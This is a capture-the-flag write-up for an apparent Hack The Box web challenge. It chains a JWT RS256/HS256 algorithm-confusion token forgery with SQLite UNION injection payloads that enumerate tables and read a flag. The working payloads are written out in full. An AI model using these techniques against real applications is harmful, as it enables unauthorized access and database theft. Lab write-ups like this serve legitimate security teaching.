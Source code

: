 ```yaml
---
layout: post
category: writeup
---
```


## Under Construction

### difficulty: medium

### description

```
A company that specialises in web development is creating a new site that is currently under construction. Can you obtain the flag?
```

- start by downloading source code:

- index.js:

```js
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser');
const routes = require('./routes');
const nunjucks = require('nunjucks');

app.use(bodyParser.urlencoded({ extended: false }));
app.use(cookieParser());

nunjucks.configure('views', {
    autoescape: true,
    express: app
});
app.set('views','./views');

app.use(routes);

app.all('*', (req, res) => {
    return res.status(404).send('404 page not found');
});

app.listen(1337, () => console.log('Listening on port 1337'));
```

- simple, it's calling routes/index.js:

```js
const AuthMiddleware = require('../middleware/AuthMiddleware');
const JWTHelper = require('../helpers/JWTHelper');
const DBHelper = require('../helpers/DBHelper');
... SNIP ...
// login user
let canLogin = await DBHelper.attemptLogin(username, password);
if(!canLogin){                 
	return res.redirect('/auth?error=Invalid username or password');
}
let token = await JWTHelper.sign({
	username: username.replace(/'/g, "\'\'").replace(/"/g, "\"\"") 
})
res.cookie('session', token, { maxAge: 900000 });
return res.redirect('/');
```

- imports some other files
- doesn't allow sql injection, replace in the username. 
- DBHelper simply adds users, checksusers, and attempts a login. all vulnerable if they didn't have the above code.
-  jwthelper.js:

```js
const fs = require('fs');
const jwt = require('jsonwebtoken');

const privateKey = fs.readFileSync('./private.key', 'utf8');
const publicKey  = fs.readFileSync('./public.key', 'utf8');

module.exports = {
    async sign(data) {
        data = Object.assign(data, {pk:publicKey});
        return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
    },
    async decode(token) {
        return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
    }
}
```

- this one does some interesting things with privatekeys and publickeys.
- the vulnerability here is that the server is accepting an HMAC256 verification when it used RSA256 to sign. I can use the public key that I have and the tool called RSAtoHMAC to resign my own payloads.
- registering an admin:admin account and decoding the jwt token:

```json
{
  "username": "admin",
  "pk": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n",
  "iat": 1674930131
}
```

- I now save the public key to a file and follow the ![RSAtoHMAC.py](https://github.com/cyberblackhole/TokenBreaker) script:

![](assets/images/htb-under-construction-jwt.png)

![](assets/images/htb-under-construction-test.png)

- I can successfuly change the username value, now the SQL injection
- the vulnerable function is the following: 

```js
sqlite.Database('./database.db'
getUser(username){
        return new Promise((res, rej) => {
            db.get(`SELECT * FROM users WHERE username = '${username}'`, (err, data) => {
                if (err) return rej(err);
                res(data);
            });
        });
    }
```

- we will attempt a UNION SQLi using 1 row as the injection, also important to note that this is sqlite, simple payload to start

```sql
'UNION SELECT 1,2,3-- -
```

![](assets/images/htb-under-contruction-2.png)

- we can inject in 2
- now i try to read table names

```json
{"username":"admin'union select 1, tbl_name, 3 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -", "pk":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n","iat":1674933169}
```

![](assets/images/htb-under-construction-table.png)

- now read the colum names:

```json
{"username":"admin'union select 1, sql, 3 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='fla
g_storage'-- -", "pk":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n","iat":1674933169}
```

![](assets/images/htb-under-construction-column.png)

- Read flag

```json
{"username":"admin' UNION SELECT 1, top_secret_flaag, 3 FROM flag_storage-- -", "pk":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n","iat":1674933169}
```

![](assets/images/htb-under-construction-flag.png)

best, gerbsec